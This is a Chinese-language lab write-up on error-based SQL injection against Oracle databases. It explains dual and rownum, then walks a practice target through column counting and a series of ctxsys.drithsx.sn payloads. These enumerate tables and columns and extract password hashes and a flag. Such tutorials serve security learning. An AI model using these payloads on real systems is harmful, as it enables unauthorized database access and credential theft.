#### oracle注入报错注入原理：

同MYSQL数据库差不多，但是一些语法不同，相比其他数据库，oracle数据库的数据类型更加严谨，由于过度严谨，所以，我们用显错注入，会比较麻烦，于是，我们利用报错的方法，忽视数据类型，直接获取数据`CTXSYS.DRITHSX.SN(user,())`

#### oracle注入报错注入 基本的语法：

`select from all_tables` 查询出所有的表

`select from user_tables` 查询出当前用户的表

`select from all_tab_columns` 查询出所有的字段

`select from user_tab_columns` 查询出当前用户的字段

`select * from v$version` 查版本

mssql系统默认库、表 `sysobjects`、`syscolumns` 、`sysdatabases`

sql系统默认库、表 `information_schema.tables` 、`information_schema.columns`

oracel 系统默认库、表 `user_table dual`
Dual是一个实表（也有人说它是虚表），如果你直接查询它，它只显示一个X，列名为DUMMY

#### dual 虚表

因为语法要求在查询时一定要加表名
例如：
`select 1,2,3,4,5 from dual`这样就不会报错，用于把语法补全
oracle弱化了库的概念，一个用户可以简单理解为一个库

#### 本节难点：

如何实现limit 功能？
oracle 中利用`rownum=1`可以取一行数据

当`rownum<3`可以取两条

当 `rownum<5`可以取四条
rownum 的值会根据查询结果进行改变
语句如下可以完成limit功能
`select username from(select rownum r, username from all users) where r=1`
子查询返回一个结果集，结果集也可以看作是一个表，其中‘r’表示一个别名，在这一句中就是rownum的别名

进入靶场
发现id传参，and 1=1，网页显示正常



`and 1=2` 报错，表示与数据库有交互


查字段，
`order by 4` 显示正常



`order by 5` 报错，有4个字段



联合查询,因为oracle数据库对数据类型要求很严格，所以使用语句
`union all select null,null,null,null from dual` 


下面使用oracle方法

#### 优点：

可以不考虑类型

#### 原理：

在数据库中对查询相应的关键词，然后查询失败，爆出数据

#### 函数：`ctxsys.drithsx.sn(user,(select banner from v$version where rownum=1))`

这个函数就是一个查询，而子查询优先进行，所以当查询函数查不到的时候，就会报错，但是我们真正要的数据在子查询里已经查过了，通过报错显示出来
查表名
`and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum=1))`


得到表名NEWS
查其他表
`and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum=1 and table_name <>'NEWS'))`



得到ADMIN表
查字段
`and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where table_name='ADMIN' and rownum=1))`


得到ID 字段
查其他字段
`and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where  rownum=1 and table_name ='ADMIN' and column_name<>'ID'))`


得到字段UNAME
再查其他字段
`and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where  rownum=1 and table_name ='ADMIN' and column_name<>'ID' and  column_name<>'UNAME'))`


得到字段UPASS
查内容
`and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where rownum=1 ))`


得到数据：`f583aea84b6ded258f529205eb6d56a7`
继续查其他数据
`and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where rownum=1 and UPASS <> 'f583aea84b6ded258f529205eb6d56a7'))`


试过发现这个也不是flag，继续
`and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where rownum=1 and UPASS <> 'f583aea84b6ded258f529205eb6d56a7' and UPASS <>  '9e8e7f6953dd11ceccc6ce655e03e070'))`


得到flag：
`2a61f8bcfe7535eadcfa69eb4406ceb9`
输入通关

